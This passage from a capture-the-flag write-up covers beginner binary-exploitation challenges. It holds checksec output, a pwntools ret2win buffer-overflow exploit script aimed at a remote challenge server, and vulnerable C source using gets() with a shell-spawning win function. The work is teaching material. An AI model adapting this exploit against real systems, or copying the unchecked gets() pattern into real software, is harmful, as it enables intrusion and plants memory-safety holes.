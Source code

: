 I also note PIE is disabled:

```bash
$ checksec pwnme
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

So now I can build a simple `ret2win` exploit:

```python
from pwn import *

local = False

fname = "./pwnme"
hostname = '0.cloud.chals.io'
port = 22209
offset = 67

binary = context.binary = ELF(fname)

if local:
    p = process(fname)

else:
    p = remote(hostname, port)

rop = ROP(binary)
rop.raw(b"A" * offset)
rop.raw(p32(binary.sym['win']))
p.sendline(rop.chain())
p.interactive()
```

#### <a name="pwn3"></a>Intro to PWN 3 - PWN - 50 points

Another 32 bit binary with source, the challenge reads:

```
#3. 32-bit Calling Convention
```

And `main.c` reads:

```c
#include <stdlib.h> 
#include <stdio.h> 

void win(unsigned int x){ 
    if (x != 0xdeadbeef){
        puts("Almost...");
	return;
    }
    system("/bin/sh");
} 

void vuln(){
    char buf[24]; 
    gets(buf); 
} 

int main(){ 
    puts("Level 3: Args too?\n"); 
    vuln(); 
```